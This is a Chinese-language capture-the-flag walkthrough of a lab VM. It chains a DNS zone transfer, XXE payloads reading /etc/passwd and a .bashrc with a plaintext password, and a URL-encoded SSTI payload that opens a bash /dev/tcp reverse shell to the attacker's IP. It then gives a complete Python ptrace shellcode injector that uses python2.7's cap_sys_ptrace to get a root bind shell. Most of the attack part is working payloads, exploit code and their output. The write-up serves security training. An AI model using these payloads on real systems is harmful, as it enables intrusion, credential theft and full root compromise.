dns域传送 | XXE注入 | php封装器 | SSTI模板注入 | python Capabilities提权

<!-- more -->


## 主机发现

### arp局域网扫描

```
[root@kali ~]# sudo arp-scan -l

Interface: eth0, type: EN10MB, MAC: 00:0c:29:03:ac:71, IPv4: 172.16.42.147
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.42.1	00:50:56:c0:00:08	VMware, Inc.
172.16.42.2	00:50:56:fd:8b:c9	VMware, Inc.
172.16.42.207	08:00:27:eb:89:45	PCS Systemtechnik GmbH
172.16.42.254	00:50:56:e2:0c:93	VMware, Inc.
```

确定172.16.42.207为目标机器。


### nmap全端口扫描

```
[root@kali ~]# sudo nmap -p- 172.16.42.207
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-18 23:19 EST
Nmap scan report for 172.16.42.207
Host is up (0.00052s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
9999/tcp open  abyss
```


### 服务识别

```
[root@kali ~]# sudo nmap -p53,80,9999 172.16.42.207 -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-18 23:21 EST
Nmap scan report for 172.16.42.207
Host is up (0.00055s latency).

PORT     STATE SERVICE VERSION
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
9999/tcp open  http    Tornado httpd 6.1
MAC Address: 08:00:27:EB:89:45 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

Tornado是一个Python开发的web服务，比django轻量，速度快


## 外部突破

### 53端口的dns服务

**域名解析通常是53端口，但是都是用的udp53端口。dns服务器上一般tcp的53端口也是开放的，一般tcp53端口用于同一个域的的不同dns服务器做数据同步。我们日常通过域名查询ip是走udp的53端口。但是我们用nmap默认只扫描53的tcp端口**


### nmap udp扫描

```
[root@kali ~]# nmap -p53 -sU 172.16.42.207 -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-18 23:31 EST
Nmap scan report for 172.16.42.207
Host is up (0.00084s latency).

PORT   STATE SERVICE VERSION
53/udp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
```

确定53端口的udp服务也是开放的。


### 删除url的#号

访问http://172.16.42.207/#app.html，删除#号，再访问


### 查看首页源码

发现如下注释

```
<!--

<div class="container py-5">
  <h1>Thanks</h1>

 TO DO: Use a GET parameter page_no  to view pages.
-->
    <!-- Optional JavaScript -->
    <!-- jQuery first, then Popper.js, then Bootstrap JS -->
```


### 爆破page_no

```
http://172.16.42.207/?page_no=1
```

page_no=21的时候，出现如下

```
Okay so you want me to speak something ?
I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!
Out of my many homes...one such home..one such home for me : hackers.blackhat.local
```

提示了放了多个后门域名，其中有` hackers.blackhat.local`域名。

对于同一个ip，同一个端口，其实也可以通过不同的域名访问不同的系统。叫做虚拟主机。

我们可以编辑/etc/hosts添加域名对应ip，也可以抓包替换host。

当我们访问hackers.blackhat.local没发现不同，blackhat.local是403。


### DNS axfr 攻击（DNS域传输漏洞）

可以对一个dns服务器发一个axfr请求，如果服务器支持，就会返回指定域的所有dns主机记录。

对于一个正常的dns服务器，他的axfr请求应该是服务器直接通过53tcp端口进行数据传输用的。

使用dig命令请求

```
[root@kali ~]# dig axfr @172.16.42.207 blackhat.local

; <<>> DiG 9.16.11-Debian <<>> axfr @172.16.42.207 blackhat.local
; (1 server found)
;; global options: +cmd
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
blackhat.local.		10800	IN	NS	ns1.blackhat.local.
blackhat.local.		10800	IN	MX	10 mail.blackhat.local.
blackhat.local.		10800	IN	A	192.168.14.143
ftp.blackhat.local.	10800	IN	CNAME	blackhat.local.
hacker.blackhat.local.	10800	IN	CNAME	hacker.blackhat.local.blackhat.local.
mail.blackhat.local.	10800	IN	A	192.168.14.143
ns1.blackhat.local.	10800	IN	A	192.168.14.143
ns2.blackhat.local.	10800	IN	A	192.168.14.143
www.blackhat.local.	10800	IN	CNAME	blackhat.local.
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
;; Query time: 3 msec
;; SERVER: 172.16.42.207#53(172.16.42.207)
;; WHEN: Sat Nov 19 03:17:55 EST 2022
;; XFR size: 11 records (messages 1, bytes 353)
```


替换host为发现的Host头`hackerkid.blackhat.local`

```GET / HTTP/1.1
GET / HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache


```

返回了新的页面。




### XXE漏洞

通过提交上述页面抓包。为了正常在浏览器操作。我们还是要在本地绑定dns解析。

再次通过浏览器访问。



抓到如下数据包

```
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: text/plain;charset=UTF-8
Content-Length: 122
Origin: http://hackerkid.blackhat.local
Connection: close
Referer: http://hackerkid.blackhat.local/

<?xml version="1.0" encoding="UTF-8"?><root><name>a</name><tel>a</tel><email>a@qq.com</email><password>a</password></root>
```

**可以看见提交的<u>xml格式</u>的数据，并且我们<u>不管在emai插入任何字段，服务器都原封不动的返回</u>。于是猜测存在返回型xxe漏洞。**


使用CyberChef的xml美化功能，美化一下为
```
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<name>a</name>
	<tel>a</tel>
	<email>a@qq.com</email>
	<password>a</password>
</root>
```

插入引入外部实体的代码。

`<!DOCTYPE foo [<!ENTITY xxetest SYSTEM 'file:///etc/passwd'>]>`

由**于只有email处有回显，所以写成`&xxetest;`，这样就能看到引入的外部实体文件的结果了。**



### 可登录账号

通过搜索/bin/bash，可以确定哪些账号可以通过ssh登录，如下，可以确定root和saket。




### php封装器读取bashrc

尝试读取了很多文件，但是只用/home/saket/.bashrc比较有用。

这里直接读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxetest SYSTEM 'file:///home/saket/.bashrc'>]>
<root>
	<name>a</name>
	<tel>a</tel>
	<email>&xxetest;</email>
	<password>a</password>
</root>
```

没有读取到，需要用php的base64封装器读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxetest SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
<root>
	<name>a</name>
	<tel>a</tel>
	<email>&xxetest;</email>
	<password>a</password>
</root>
```



读取成功，解码

```
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar

# make less more friendly for non-text input files, see lesspipe(1)
[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi

# set a fancy prompt (non-color, unless we know we "want" color)
case "$TERM" in
    xterm-color|*-256color) color_prompt=yes;;
esac

# uncomment for a colored prompt, if the terminal has the capability; turned
# off by default to not distract the user: the focus in a terminal window
# should be on the output of commands, not on the prompt
#force_color_prompt=yes

if [ -n "$force_color_prompt" ]; then
    if [ -x /usr/bin/tput ] && tput setaf 1 >&/dev/null; then
	# We have color support; assume it's compliant with Ecma-48
	# (ISO/IEC-6429). (Lack of such support is extremely rare, and such
	# a case would tend to support setf rather than setaf.)
	color_prompt=yes
    else
	color_prompt=
    fi
fi

if [ "$color_prompt" = yes ]; then
    PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
else
    PS1='${debian_chroot:+($debian_chroot)}\u@\h:\w\$ '
fi
unset color_prompt force_color_prompt

# If this is an xterm set the title to user@host:dir
case "$TERM" in
xterm*|rxvt*)
    PS1="\[\e]0;${debian_chroot:+($debian_chroot)}\u@\h: \w\a\]$PS1"
    ;;
*)
    ;;
esac

# enable color support of ls and also add handy aliases
if [ -x /usr/bin/dircolors ]; then
    test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
    alias ls='ls --color=auto'
    #alias dir='dir --color=auto'
    #alias vdir='vdir --color=auto'

    alias grep='grep --color=auto'
    alias fgrep='fgrep --color=auto'
    alias egrep='egrep --color=auto'
fi

# colored GCC warnings and errors
#export GCC_COLORS='error=01;31:warning=01;35:note=01;36:caret=01;32:locus=01:quote=01'

# some more ls aliases
alias ll='ls -alF'
alias la='ls -A'
alias l='ls -CF'

# Add an "alert" alias for long running commands.  Use like so:
#   sleep 10; alert
alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'

# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.

if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases
fi

# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

#Setting Password for running python app
username="admin"
password="Saket!#$%@!!"

```

发现账号密码

```
username="admin"
password="Saket!#$%@!!"
```

使用该账号登录9999端口，没有成功将admin换成saket成功登录saket/Saket!#$%@!!


登录后发现没有啥内容，根据提示猜测有name参数。




### SSTI模板注入

观察该页面，通过输入的参数在页面输出到对应的位置，很简单，也许就是一个模板页面，尝试SSTI模板注入。

- **通用探测payload1**

```
{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[abcxyz]
```



如果看到错误，并且返回结果里有我们随便定义的服务端不存在的字符串`abcxyz`，那很有可能是模板触发的报错，可能存在模板注入漏洞。**返回结果可以判断是python的模板**。


- **通用探测payload2**

```
${7*7},{{7*7}}
```




可以确定是双层的payload执行了{{7*7}}

也就是如下url就行了

```
http://hackerkid.blackhat.local:9999/?name=${{7*7}}
```


- **注入反弹shell的代码**

  发现报错

```
{{os.system('bash -c "bash -i >& /dev/tcp/172.16.42.147/4444 0>&1"')}}
```



**这是模板注入通常会遇到的异常情况**。我们需要做一些编码，混淆，绕过等。

这里我们所有的字符都进行ascii编码，包括`}`、`%`、`{`、`'`、`"`、空格等字符

 

我们这里直接使用CyberChef进行编码

 

```
%7B%25%20import%20os%20%25%7D%7B%7Bos%2Esystem%28%27bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F172%2E16%2E42%2E147%2F4444%200%3E%261%22%27%29%7D%7D
```

成功反弹了shell

```shell
[root@kali ~]# nc -nvlp 4444
listening on [any] 4444 ...

connect to [172.16.42.147] from (UNKNOWN) [172.16.42.207] 55092
bash: cannot set terminal process group (650): Inappropriate ioctl for device
bash: no job control in this shell
saket@ubuntu:~$
saket@ubuntu:~$
```


## Capabilities权限提升

Capabilities是内核的一个功能，用来做权限管理。它将系统的特权分成了四十多个权限组。比如wireshark在Linux上如果不是root就不能直接执行，需要添加对应的Capabilites权限`setcap cap_net_raw,cap_net_admin=eip /user/bin/dumpcap`。

可以通过官方文档了解Capabilites：https://man7.org/linux/man-pages/man7/capabilities.7.html


- **递归查询系统所有的Capabilities权限文件，并且将标准错误输出到/dev/null**

  ```
  saket@ubuntu:~$ getcap -r / 2>/dev/null
  getcap -r / 2>/dev/null
  ```

  执行结果为空，单独执行getcap，发现是没有环境变量，那么我们指定路径

  ```
  saket@ubuntu:~$ getcap
  getcap
  Command 'getcap' is available in the following places
   * /sbin/getcap
   * /usr/sbin/getcap
  ```

  执行指令`/sbin/getcap -r / 2>/dev/null`

  ```
  saket@ubuntu:~$ /sbin/getcap -r / 2>/dev/null
  /sbin/getcap -r / 2>/dev/null
  /snap/core20/1695/usr/bin/ping = cap_net_raw+ep
  /usr/bin/python2.7 = cap_sys_ptrace+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  ```

  发现python2.7具有cap_sys_ptrace权限。这是可以提权的。


```python
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)

```

在kali上部署该py文件，下载到靶机。

```
saket@ubuntu:~$ wget http://172.16.42.146/inject.py
```

在靶机上找到一个root的进程用于注入(随便挑选一个，这里是snapd，进程id是1311)

```
saket@ubuntu:~$ ps -aux | grep root
root        1311  0.1  1.2 1022648 52100 ?       Ssl  Nov18   0:39 /usr/lib/snapd/snapd
```

执行注入，

```
saket@ubuntu:~$ /usr/bin/python2.7 ./inject.py 1311
/usr/bin/python2.7 ./inject.py 199780
Instruction Pointer: 0x0L
Injecting Shellcode at: 0x0L
Shellcode Injected!!
Final Instruction Pointer: 0x2L
```

inject.py注入成功后会在本机开启5600端口。

```
saket@ubuntu:~$ netstat -pantu | grep 5600
netstat -pantu | grep 5600
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:5600            0.0.0.0:*               LISTEN      -
```

现在通过kali连接该端口就行了

```
[root@kali ~]# nc 172.16.42.207 5600
id
uid=0(root) gid=0(root) groups=0(root)
```

提权成功。

